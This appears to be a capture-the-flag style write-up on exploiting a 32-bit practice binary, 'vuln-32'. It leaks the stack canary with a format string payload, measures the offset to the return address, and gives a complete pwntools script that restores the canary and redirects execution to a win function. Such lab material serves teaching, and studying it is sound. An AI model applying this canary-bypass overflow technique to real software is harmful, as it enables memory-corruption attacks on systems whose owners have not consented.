




## 📘 Exploit Write-up: `vuln-32` – Format String Canary Leak to Code Execution

---

### 🔍 Binary Info

* **Target:** `vuln-32`
* **Arch:** 32-bit (`x86`)
* **NX:** Enabled
* **ASLR:** Enabled
* **Stack Canary:** ✅ Enabled
* **PIE:** Disabled
* **Libc:** Dynamically linked
* **Vulnerability:** Format String → Stack Canary Bypass

---

### 🎯 Goal

Leak the **stack canary** using a format string vulnerability and then perform a buffer overflow that overwrites the return address without triggering a crash.

---

### 🔓 Vulnerability

The binary contains a **format string vulnerability** allowing the attacker to leak arbitrary stack values.

Using a payload like:

lets leak the stack canary



here we can see that the canary is at 24 offset of the stack

We can tell because it's roughly 64 bytes after the "buffer start", which should be close to the end of the buffer. Additionally, it ends in 00 and looks very random, unlike the libc and stack addresses that start with f7 and ff.

```bash
$ ./vuln-32 
Leak me
%23$p %24$p %25$p
0x43ebcc00 (nil) 0xf7f83e14
Overflow me
```

It appears to be at %23$p. Remember, stack canaries are randomised for each new process, so it won't be the same.

---

### padding to the return addr

to find the padding between the canary and return address we need to find the positiopn of both canary and return address and then substract them 

we will use ragg2 to get the cyclic pattern

```bash
$ ragg2 -P 100 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
```

dissass of main

```bash
[0x0804920f]> s main; pdf
            ; DATA XREFS from entry0 @ 0x80490a6(r), 0x80490ac(w)
┌ 28: int main (int argc, char **argv, char **envp);
│           0x08049229      55             push ebp
│           0x0804922a      89e5           mov ebp, esp
│           0x0804922c      83e4f0         and esp, 0xfffffff0
│           0x0804922f      e83c000000     call sym.__x86.get_pc_thunk.ax
│           0x08049234      05cc2d0000     add eax, 0x2dcc
│           0x08049239      e854ffffff     call sym.vuln
│           0x0804923e      b800000000     mov eax, 0
│           0x08049243      c9             leave
└           0x08049244      c3             ret
[0x08049229]>
```

to return address would be 0x0804923e we have to find its postion on the stack 



now lets enter the cyclic pattern and overflow the buffer




```bash
padding = returnaddress_offset - canary_offser
padding = 80 - 64 = 16
```

Return pointer is 16 bytes after the canary start, so `12 bytes` after the canary.

---


### ⚙️ Exploit Strategy

1. **Start the binary** and clean any buffered output.
2. **Send `%23$p`** to leak the stack canary from the format string vulnerability.
3. **Parse the leaked value** as a 32-bit address.
4. Build the payload:

   * Overflow buffer up to the canary.
   * Write back the original canary to avoid detection.
   * Pad to the saved return address.
   * Overwrite return address with a controlled address (e.g., a win function).
5. **Send the payload** and observe successful execution.

---

### 🧪 Exploit Code

```python
from pwn import *

p = process('./vuln-32')

# Step 1: Start and clean initial output
log.info(p.clean())
p.sendline('%23$p')  # Step 2: Leak canary

# Step 3: Parse canary
canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

# Step 4: Build payload
payload  = b'A' * 64         # Buffer overflow to canary we can also find using cyclic pattern
payload += p32(canary)       # Correct canary to bypass check
payload += b'A' * 12         # Padding to return address
payload += p32(0x08049245)   # Overwrite return address with "win" function or similar

# Step 5: Send payload
p.clean()
p.sendline(payload)

# Step 6: Read result
print(p.clean().decode('latin-1'))
```

---

### 🧾 Output Example



---

### ✅ Exploit Success

The payload successfully bypasses the stack canary using the leaked value and redirects execution flow to a controlled address (such as a `win()` function or similar shell-triggering code).

---

### 🏷️ Tags

`32-bit`, `format string`, `canary leak`, `stack canary`, `buffer overflow`, `no PIE`, `NX enabled`, `ASLR enabled`, `pwntools`, `ret2win`

